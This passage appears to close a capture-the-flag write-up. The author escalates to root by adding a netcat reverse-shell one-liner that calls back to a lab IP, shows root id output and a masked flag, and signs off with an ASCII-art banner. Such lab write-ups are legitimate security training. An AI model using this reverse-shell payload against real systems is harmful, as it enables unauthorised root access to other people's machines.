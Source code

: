 This is a good setup to run a reverse shell as root. Adding payload:
`'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.77 4242 >/tmp/f'`

Set up `netcat` listener beforehand and ran the exploit

```Console
# id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: 5d3[oooooo~[takeAbreath]~oooooo]

Pwned by:
```ascii
                                                                                                                             
                       *                          **          *                                                      *       
    *                **                        *****        **                                               *     **        
   **                **                       *  ***        **                                              **     **        
   **                **                          ***        **                                              **     **        
 ********            **                         *  **       **         ***  ****                          ******** **        
********     ****    **  ***       ***          *  **       ** ****     **** **** *    ***       ****    ********  **  ***   
   **       * ***  * ** * ***     * ***        *    **      *** ***  *   **   ****    * ***     * ***  *    **     ** * ***  
   **      *   ****  ***   *     *   ***       *    **      **   ****    **          *   ***   *   ****     **     ***   *** 
   **     **    **   **   *     **    ***     *      **     **    **     **         **    *** **    **      **     **     ** 
   **     **    **   **  *      ********      *********     **    **     **         ********  **    **      **     **     ** 
   **     **    **   ** **      *******      *        **    **    **     **         *******   **    **      **     **     ** 
   **     **    **   ******     **           *        **    **    **     **         **        **    **      **     **     ** 
   **     **    **   **  ***    ****    *   *****      **   **    **     ***        ****    * **    **      **     **     ** 
    **     ***** **  **   *** *  *******   *   ****    ** *  *****        ***        *******   ***** **      **    **     ** 
            ***   **  **   ***    *****   *     **      **    ***                     *****     ***   **            **    ** 
                                          *                                                                               *  
                                           **                                                                            *   
                                                                                                                        *    
                                                                                                                       *     
```
